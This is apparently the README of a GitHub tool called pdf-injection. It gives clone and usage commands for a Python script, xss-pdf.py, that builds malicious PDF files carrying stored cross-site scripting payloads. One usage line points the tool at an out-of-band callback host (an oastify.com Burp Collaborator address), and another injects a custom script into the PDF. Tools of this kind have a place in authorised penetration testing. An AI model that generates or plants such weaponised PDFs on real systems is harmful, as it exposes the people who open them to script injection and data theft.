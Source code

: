 # pdf-injection

Installation
```
git clone https://github.com/kaanatmacaa/pdf-injection.git
```

Usage
```
python -h
python3 xss-pdf.py 
python3 xss-pdf.py -o 1 -u http://burpsuite12345.oastify.com
python3 xss-pdf.py -o 2 -sc app.alert(2) 
```

Option 1
Creates three malicous PDF files leading to stored XSS

Option 2
  Allows user to create own PDF file with their personal scripts - still working on it


Open to new suggestions, please create an issue
